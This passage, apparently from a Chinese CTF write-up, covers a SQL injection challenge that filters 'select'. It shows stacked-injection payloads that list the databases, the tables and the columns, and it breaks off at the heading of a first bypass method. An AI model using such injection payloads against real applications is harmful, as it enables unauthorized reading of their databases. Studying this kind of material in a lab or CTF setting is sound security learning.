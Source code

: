![image-20231109223245571](./img/4-7.png)

发现过滤了`select`

堆叠注入试试,就是通过`;`号注入多条SQL语句。+

```mysql
1';show databases%23
1';show tables%23
# 表名为数字时，要用反引号包起来查询。
1';show columns from `1919810931114514`%23
1';show columns from words%23
```

查出来了表`1919810931114514`和`words`，

`1919810931114514`表有`flag`列

`words`表有`id`列和`data`列

但是`select`被过滤了，需要绕过

### 方法一 更改查询表名为目标表名及更改对应字段
